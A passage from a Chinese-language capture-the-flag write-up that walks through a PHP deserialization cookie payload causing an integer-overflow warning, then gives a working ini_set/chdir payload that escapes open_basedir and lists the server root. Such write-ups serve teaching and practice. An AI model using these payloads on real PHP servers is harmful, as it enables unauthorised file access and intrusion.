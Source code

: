 原理就是当key等于PHP int类型数据的最大值时，想要再插入一个更大的值便会造成溢出导致出现Warning，关于PHP int类型数据最大值的参考文献如下：

> PHP的int型数据取值范围，与操作系统相关，32位系统上为2的31次方，即-2147483648到2147483647，64位系统上为2的63次方，即-9223372036854775808到9223372036854775807。



所以我们可以令count=**9223372036854775806**

我们直接构造payload

```
<?php
class User{
	public $count=9223372036854775806;
}
$a = new User;
echo urlencode(serialize($a));
//O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D
```

然后将cookie修改为 data=O%3A4%3A%22User%22%3A1%3A%7Bs%3A5%3A%22count%22%3Bi%3A9223372036854775806%3B%7D

传上去后，我们查看phpinfo()

我们在phpinfo()中发现disable_functions和open_basedir：

**open_basedir可将用户访问文件的活动范围限制在指定的区域**

![image-20241108195447798](C:/Users/11/AppData/Roaming/Typora/typora-user-images/image-20241108195447798.png)

## 绕过open_basedir

这里受限于open_basedir的限制只能读取Web服务根目录下的文件，我们需要绕过open_basedir，具体绕过方法我们有以下几种方法：

- 命令执行函数绕过（system等命令执行函数）
- 软链接：symlink()函数
- glob伪协议（搭配PHP原生类DirectoryIterator使用）
- 利用ini_set读取文件内容

引用自[Open_basedir绕过](https://www.cnblogs.com/LLeaves/p/13210005.html)

在这道题中并没有过滤ini_set，因此我们可以构造下面的payload来绕过open_basedir去读取根目录的文件(eval()可以执行多条php语句)

```
mkdir('ye'); 
chdir('ye');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..'); //chdir次数等同于Web目录返回根目录所需次数再加一
ini_set('open_basedir','/');
var_dump(scandir('./'));
```

![image-20241108200108174](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082001227.png)
